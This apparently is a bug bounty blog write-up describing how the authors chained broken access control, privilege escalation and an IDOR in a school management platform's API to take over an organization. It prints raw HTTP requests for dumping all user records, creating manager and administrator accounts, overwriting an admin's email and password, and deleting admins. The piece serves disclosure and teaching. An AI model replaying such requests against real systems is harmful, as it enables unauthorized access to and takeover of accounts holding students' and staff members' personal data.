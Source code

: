 ```yaml
---
title: "Taking Over an Entire Organization - A Journey Through Multiple Bugs"
datePublished: Mon Jun 12 2023 15:36:47 GMT+0000 (Coordinated Universal Time)
cuid: clit0ovif000p09l7gv5shskj
slug: taking-over-an-entire-organization
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1686584109939/d21a2887-3fa1-4e1b-b4d5-a347212a4960.jpeg
ogImage: https://cdn.hashnode.com/res/hashnode/image/upload/v1686584167263/413b0100-0fb7-47d6-b751-17710af05b26.jpeg
tags: hacking, hackernews, penetration-testing, bugbounty, bugbountytips

---
```


## **Introduction**

Today, I want to share a thrilling adventure, a tale of how a few seemingly harmless bugs can snowball into a security nightmare. Through collaborative work with my friend [DreyAnd](https://twitter.com/dreyand_) back in **April 2023,** we managed to expose vulnerabilities that eventually led to a **total organizational takeover.**

## **The Discovery**

Our journey began with an application we were testing - a school management platform designed to enable teachers and managers to control classes, students, examinations, and other resources. The platform boasted a substantial user base of students.

The first issue we spotted was that we needed a way to leak all the data and UUIDs of these numerous students.

Surprisingly, the first bug was found in a place where most would feel secure - the `admin` endpoint. Despite the endpoint itself being inaccessible, we discovered a **Broken Access Control** mechanism under this admin endpoint. Although it should have been locked behind administrative privileges, a properly formatted backend request allowed us to leak a vast amount of user data. This included information from students, teachers, and even admins.

By simply sending a `GET` request to the `/v1/admin/<organization>/customers/getUsers?=*` endpoint, we were able to gather:

* Usernames
    
* User ID
    
* Email Address
    
* Hostname
    
* IP Address
    
* Account Expiration
    

```http
GET /v1/admin/<organization>/customers/getUsers?=* HTTP/2
Host: api.redacted.com
Accept: */*
Content-Type: application/json
Authorization: Basic <low permission user auth>
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Cache-Control: no-cache
Pragma: no-cache
Expires: -1
Server: Microsoft-IIS/10.0
X-Powered-By: ASP.NET

[
  {
    "account_id": "<userid>",
    "avatar_url": "https://api.redacted.com/v2/avatar/?id=1234567",
    "first_name": "Hacker ",
    "last_name": "Admin1",
    "title": "",
    "role": "Administrator",
    "devices": [],
    "email": "hackeradmin@redacted.com",
    "username": "hackeradmin1337",
    "external_person_key": "1234567",
    "end_date": "2027-07-25T00:00:00",
      "last_session": {
        "broadcast_id": "1234-1234-1234-1234-1234ge321",
        "account_id": "<userid>",
        "created": "2027-02-27T17:56:27.4194925",
        "completed": "2027-02-27T17:57:34.0976831",
        "satellite_server_id": 123456,
        "IP": "<IP>",
        "roster_id": 12345,
        "customer_id": "<userid>",
      },
      "created_by": "<creatorid>",
      "roster_id": 54321,
      "name": "creator"
    },
    "schools": [
      {
        "school_id": "<ID>",
        "school_code": "<CODE>",
        "name": "school"
      }
  ]
```

This was our first red flag. Despite being a low-privilege account, we could fetch all the UUIDs we needed for an attack.

Next, we observed that while these **low-privilege accounts could not create admin accounts**, they could, quite strangely, **create manager accounts** which allowed us to do a vertical **Privilege Escalation**.

```http
POST /v1/<organization>/users HTTP/2
Host: api.redacted.com
Accept: */*
Content-Type: application/json
Authorization: Basic <low permission user auth>
Origin: https://www.redacted.com

{
  "first_name": "drey",
  "last_name": "ahnd",
  "username": "DreyAnd",
  "external_person_key": "",
  "email": "hacktus+5@wearehackerone.com",
  "role": "Manager",
  "schools": [
    "<ID>"
  ],
  "password": "Password",
}
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 22
Server: Microsoft-IIS/10.0
X-Powered-By: ASP.NET

{"account_id":<ManagerID>}
```

This was our second clue that things were not quite right.

Our journey didn't stop at the manager level. We sought to determine whether we could escalate our privileges even further to obtain `admin` status. If we could go from a `low-privilege` account to a manager account, what was stopping us from becoming admins?

We discovered two significant bugs that allowed us to elevate our permissions.

The first was a **Privilege Escalation** bug that let us modify our own permissions - the same technique we had used with the `low-privilege` account - and upgrade to an `admin`.

```http
POST /v1/<organization>/users HTTP/2
Host: api.redacted.com
Accept: */*
Content-Type: application/json
Authorization: Basic <manager auth>
Origin: https://www.redacted.com

{
  "first_name": "Hacker",
  "last_name": "Admin",
  "username": "hacktus",
  "external_person_key": "",
  "email": "hacktus@wearehackerone.com",
  "role": "Administrator",
  "schools": [
    "<ID>"
  ],
  "password": "Password",
}
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 22
Server: Microsoft-IIS/10.0
X-Powered-By: ASP.NET

{"account_id":<AdminID>}
```

The second bug was an **Insecure Direct Object Reference (IDOR)** that let us modify the data of any existing `admin` account - specifically the email and password. With this capability, we could essentially take over any admin account within the organization.

```http
PUT /v1/<organization>/users/<adminid> HTTP/2
Host: api.redacted.com
Content-Length: 339
Accept: */*
Content-Type: application/json
Authorization: Basic <admin auth>

[
    {
        "first_name": "tookover",
        "last_name": "by manager",
        "username": "admin",
        "external_person_key": "",
        "email": "test@redacted.com",
        "role": "Administrator",
        "schools": [
            "<ID>"
        ],
        "password": "NewPassword",
    }
]
```

With these newfound bugs, we had effectively breached the heart of the administrative sphere.

## **The Impact**

What came next was something we didn't initially foresee. Using the admin access we had just secured, we managed to delete all other admin accounts, effectively taking over the entire organization.

```http
DELETE /v1/<organization>/users/<userid> HTTP/2
Host: api.redacted.com
Accept: */*
Content-Type: application/json
Authorization: Basic <admin auth>
```

Our findings demonstrated the massive impact of these bugs. The organization's integrity was at risk due to the snowballing effect of several vulnerabilities that, individually, may not have appeared as critical threats.

## **Conclusion**

In this journey of discovery, we've learned how crucial it is to understand the implications of seemingly insignificant bugs. More importantly, we have demonstrated how a chain of these bugs can potentially lead to a full organizational takeover.

In the ever-evolving landscape of cybersecurity, there's never been a more important time to ensure the safety of our digital spaces. Remember - when it comes to security, every bug counts, no matter how small it may seem.

*Happy hacking and stay secure!*